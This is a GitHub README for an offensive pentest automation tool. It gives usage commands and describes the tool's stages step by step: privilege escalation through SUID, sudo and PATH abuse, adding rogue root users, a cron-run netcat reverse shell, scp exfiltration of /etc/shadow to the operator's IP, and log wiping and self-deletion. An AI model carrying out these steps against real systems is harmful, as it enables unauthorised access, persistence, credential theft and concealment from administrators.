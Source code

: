 # the terminator
+++ a tool for automating common techniques for the enumeration, privilege escalation, persistence, exfiltration, and reporting stages of a pentest +++

- *feel free to use and test the terminator and share your suggestions in the Discussions*
# contents
- terminator.py - tool for automating common techniques for enumeration, privilege escalation, persistence, exfiltration, and reporting
- directory-list.txt - default wordlist of common directory names for web enumeration (use -w in 'enum' module to specify a different wordlist)

<> the terminator automates every stage of a penetration test *except* gaining the initial shell (there are too many possible ways to get an initial shell for it to be reliably automated, and it can depend on a multitude of nuanced vulnerabilities, so that stage is up to you, good luck!)

# how to use
1) clone the repository to your computer
- "git clone https://github.com/suffs811/the-terminator.git"
- note: if you choose to only download terminator.py and not the entire repo, you will need to specify a directory wordlist for webpage enumeration ("-w" with the "enum" module of terminator.py)

2) deploy the terminator

<> the terminator has four modules. for full terminator productivity, you will need to run the script *four* separate times:
first on your own machine (enum), second time on the target machine after gaining initial shell (priv), third time on target machine after gaining root privileges (root), and fourth time on your local machine to compile the report (report).
- enum - enumerate the target ip
- priv - attempt privilege escalation on target machine
- root - with root privileges, establish persistence and exfiltrate system data to local machine
- report - create .txt and .docx report files on local machine from data gathered using the previous modules

*see the [syntax](#syntax) section below for help on how to use each module*

*for help with usage, use the -h flag or grep for 'usage' in the script (grep "usage" terminator.py)*

*hint: local machine = your own machine*

# syntax
(stage 1-enumerating target from local machine):
- python3 terminator.py enum -t <target_ip_to_enumerate>
(optional: -w <path_to_directory_wordlist> (otherwise, terminator will use default list))

(stage 2-privilege escalation after gaining shell on target machine):
- python3 terminator.py priv -u <new_root_username> -p <new_root_passwd> 

(stage 3-persistence/data exfiltration after gaining root privileges on target machine):
- python3 terminator.py root -u <new_user_name> -p <new_user_passwd> -l <local_ip> -x <local_listening_port>
(optional: -f (bypass root permissions check))

(stage 4-create report on local machine):
- python3 terminator.py report -o <output_file_name>

# details
stage 1 - enumeration
- initial nmap scan to find open ports on host
- secondary nmap scan to identify services running on open ports
- if http in use, run nikto, gobuster, curl robots.txt, and searchsploit for service version exploits
- if smb in use, run enum4linux and nmap scripts to scan smb shares and users
- if ftp in use, run nmap scripts to determine if ftp allows 'anonymous' logon
- if nfs in use, run nmap scripts to identify service status and mounted shares

stage 2 - privilege escalation
- attempt to disable history logging of current session and create current backups of log files
- attempt running sudo-l to find commands user can run as sudo, then run the command if it does not require user interaction; if it does, then print to screen
- find files with suid bitset and if the binary exists in terminator's dictionary, execute the code; if it needs user interaction, print to screen
- run strings on suid files to find commands that do not specify command's full path, then create binary file in /tmp, echo '/bin/bash -p' to file, add /tmp to $PATH, execute binary
- check if /etc/passwd or /etc/shadow are world-writable; if either one is, create password from user input and append new root user to the file; su user for root
- <> note: some privilege escalation vectors only provide you with escalated user privileges and not a full root shell; however, you can use your new escalated privileges to find another privilege escalation vector to gain a root shell (such as looking in /root or looking at root's password hash in /etc/shadow)

stage 3 - persistence and data exfiltration (ensure ssh is active on local machine)
- check for root permissions and suggest -f to bypass root check
- if root permissions is true, create password from user input, add new root user to /etc/passwd, /etc/shadow files and add to root group
- create shell script at /dev/shm/.data/data_log containing netcat reverse shell at ip:port from user input
- create cronjob in /etc/crontab to execute the shell script every 5 minutes

- write id,whoami,netstat and /etc/passwd,/etc/shadow,/etc/hosts,/etc/crontab,/etc/exports, and suid files to single file and scp the file to local machine using ip from user input to local 'root' user; *scp will prompt for local user's root password on local machine*
- cover tracks by clearing log files and history, restoring log files to the copies made during stage 2, deleting all files created by terminator, and deleting terminator.py itself

stage 4 - report writing
- add contents from enum.txt (enumeration data), priv.txt (privilege escalation vector used to gain root privileges), and data_exfil.txt (peristence and target machine data) to .txt and .docx files with headings; use -o to specify desired file name

# TO DO
- create vm to help people learn how to use the terminator
- add web enumeration function that scans web page images for hidden stego files & searches for usernames/passwords in source code

# credit and license
Copyright (c) 2023 suffs811

https://github.com/suffs811

This project is licensed under the MIT License - see the LICENSE file for details.

directory-list.txt comes from SecLists' common.txt list of directory names. it can be found here: https://github.com/suffs811/SecLists/blob/master/Discovery/Web-Content/common.txt

*terminator has been tested on kali linux 2022.4 (local machine) and ubuntu unity 22.10 / Ubuntu 20.04.6 / Ubuntu 18.04.6 (target machine)*

-+- Leave a comment if you have any questions! -+-
